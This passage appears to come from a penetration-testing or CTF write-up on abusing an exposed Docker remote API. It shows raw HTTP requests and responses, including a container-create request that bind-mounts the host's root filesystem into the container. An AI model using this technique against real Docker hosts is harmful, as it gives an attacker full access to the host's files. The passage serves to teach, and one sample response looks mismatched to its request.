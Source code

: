 The reponse came confirming the creation of the image successfully
```http
HTTP/1.1 201 Created
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:52:16 GMT
Content-Type: application/json
Content-Length: 90
Connection: Close

	{"Id":"89a1eeb4c9a48a4d3a7bc300fc0b6164d32f2bd65b84e15ef60954b8bb38125d","Warnings":null}
```

We can confirm that our image has been created by going to this URL: http://10.0.5.10:4000/images/json. It should be the first one form the top.

Next step is to create a container from this image, and according to the documentation, it could be done using the following request:

```http
POST /containers/create HTTP/1.1
Host: 10.0.5.10:4000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 207

{
	"Image": "sha256:00c1fade7392ddfdc9541735334cf52bc7aa938c52c03fd8ab8e60268de55625",
	"HostConfig": {
	"Binds": ["/:/root/hostroot"]}
}
```

That's where the magic happens. Assuming that the user which is running the docker daemon is privileged and able to view and edit all files on the host system, we simply _map_ or _bind_ the root's directory to a directory create inside the container itself. Theoritically, we should be able to browse the **HOST**'s file system `/` from inside the container by navigating into `/root/hostroot`.

In case of a successful container creation, the server's response will look like this:
```http
HTTP/1.1 201 Created
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:54:16 GMT
Content-Type: application/json
Content-Length: 9140
Connection: Close

{"stream":"Step 1 : FROM ubuntu:16.04\n"}
...
SNIP
...
{"stream":"Removing intermediate container 51234bca51\n"}
{"stream":"Successfuly built 00c522fa85c\n"}
```
